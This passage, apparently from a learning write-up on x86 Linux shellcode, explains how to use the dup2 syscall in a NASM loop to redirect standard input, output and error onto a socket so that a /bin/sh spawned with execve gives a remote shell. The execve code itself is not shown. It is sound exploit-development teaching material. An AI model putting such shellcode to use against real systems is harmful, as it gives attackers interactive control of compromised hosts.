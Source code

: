 ### Duplicate File Descriptor
Using the duplicate file descriptor, it will be possible to to redirect/duplicate STDIN(0), STDOUT(1) and STDERR(2) through the socket file descriptor. Doing this makes the shell observable.

The first thing to do is identify the system call for `dup2`, this is `63`.

```
skawa@ubuntu:~/Desktop/code/assignment/assignment1$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep dup
#define __NR_dup		 41
#define __NR_dup2		 63
#define __NR_dup3		330
skawa@ubuntu:~/Desktop/code/assignment/assignment1$
```

The arguments required by the `dup2` syscall can then be identified. As seen below, the two arguments that are required are `oldfd` and `newfd`.

```
SYNOPSIS
       #include <unistd.h>

       int dup(int oldfd);
       int dup2(int oldfd, int newfd);
```

The `oldfd` argument will contain the socket file descriptor, which is currently in the `EDX` register.

The `newfd` argument will contain the value for STDIN(0), STDOUT(1) and STDERR(2). The way this is achieved is through a loop that takes advantage of the signed flag. Once the value in `ECX` has been exhausted, the signed flag will be set, thus permitting the exit of the loop.

```nasm
;dup2
mov ebx, edx ;move the socket file descriptor into EBX to satisfy the oldf2 argument for dup2
xor ecx, ecx  ;clear out ecx
mov cl, 0x2 ;set 2 as the counter for the dup2 loop. The significance of 2 is for STDIN(0), STDOUT(1) and STDERR(2)

redirection_loop:
  mov al, 0x3f ;dup2 syscall
  int 0x80 ;execute dup2 syscall
  dec ecx ;decrement the loop counter
  jns redirection_loop ;conditional jump to the redirection_loop as long as the signed flag (SF) is not set.
```

### Execve
Considering that all input, output and error message have been redirected to the socket, the last section to complete is the execution of a shell.

The instructions being used are for a really simple stack-based `execve` SYSCALL that executes `/bin/sh`.
